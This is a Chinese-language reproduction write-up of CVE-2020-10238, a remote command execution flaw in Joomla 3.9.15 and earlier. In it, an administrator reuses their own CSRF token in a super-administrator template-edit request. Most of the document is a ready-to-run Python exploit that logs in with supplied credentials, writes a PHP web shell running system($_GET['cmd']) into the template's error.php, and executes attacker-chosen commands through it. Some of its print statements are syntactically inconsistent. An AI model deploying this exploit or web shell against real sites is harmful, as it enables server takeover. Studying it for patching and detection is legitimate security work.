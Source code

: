 # CVE-2020-10238 Joomal <= 3.9.15 远程命令执行漏洞

### 一、漏洞简介

### 二、漏洞影响

<= 3.9.15

### 三、复现过程


```
http://url/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==
```

使用admin进行登录

![](images/15891007741142.png)


**思路：**

* 首先超级管理员跟管理员的后台界面是不同的
* 将恶意代码添加到index.php里面
* 使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![](images/15891007875276.png)


为了方便阅读，这里我们删掉index.php的内容，只保留shell

![](images/15891007941787.png)


黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![](images/15891008011455.png)


![](images/15891008045407.png)


如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![](images/15891008111690.png)


![](images/15891008139593.png)


![](images/15891008179618.png)


**poc**

![](images/15891008276524.png)



```python
#!/usr/bin/python
import sys
import requests
import re
import argparse

def extract_token(resp):
    match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
    if match is None:
        print("[-] Cannot find CSRF token!\n") + "[-] You are not admin account!"
        return None
    return match.group(1)
def try_admin_login(sess,url,uname,upass):
    admin_url = url+'/administrator/index.php'
    print('[+] Getting token for admin login')
    resp = sess.get(admin_url, verify=True)
    token = extract_token(resp)
    # print token
    if not token:
        return False
    print('[+] Logging in to admin')
    data = {
        'username': uname,
        'passwd': upass,
        'task': 'login',
        token: '1'
    }
    resp = sess.post(admin_url, data=data, verify=True)
    if 'task=profile.edit' not in resp.text:
        print('[!] Admin Login Failure!')
        return None
    print('[+] Admin Login Successfully!')
    return True

def rce(sess,url,cmd):
    getjs = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D'
    resp = sess.get(getjs, verify=True)
    token = extract_token(resp)
    if (token==None) : sys.exit()
    filename='error.php'
    shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
    shdata_up = {
        'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
        'task': 'template.apply',
        token: '1',
        'jform[extension_id]': '506',
        'jform[filename]': '/' + filename
    }
    shreq = sess.post(shlink, data=shdata_up)
    path2shell = '/templates/protostar/error.php?cmd='+cmd
    # print '[+] Shell is ready to use: ' + str(path2shell)
    print '[+] Checking:'
    shreq = sess.get(url + path2shell)
    shresp = shreq.text
    print shresp + '[+] Shell link: \n' + (url + path2shell)
    print '[+] Module finished.'

def main() :
    
    # Construct the argument parser
    ap = argparse.ArgumentParser()
    # Add the arguments to the parser
    ap.add_argument("-url", "--url", required=True,
                    help=" URL for your Joomla target")
    ap.add_argument("-u", "--username", required=True,
                    help="username")
    ap.add_argument("-p", "--password", required=True,
                    help="password")
    ap.add_argument("-cmd", "--command", default="whoami",
                    help="command")
    args = vars(ap.parse_args())
    # target
    url = format(str(args['url']))
    print '[+] Your target: ' + url
    # username
    uname = format(str(args['username']))
    # password
    upass = format(str(args['password']))
    # command
    command = format(str(args['command']))
    
    sess = requests.Session()
    if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
    rce(sess,url,command)
if __name__ == "__main__":
    sys.exit(main())
```

参考链接

https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238
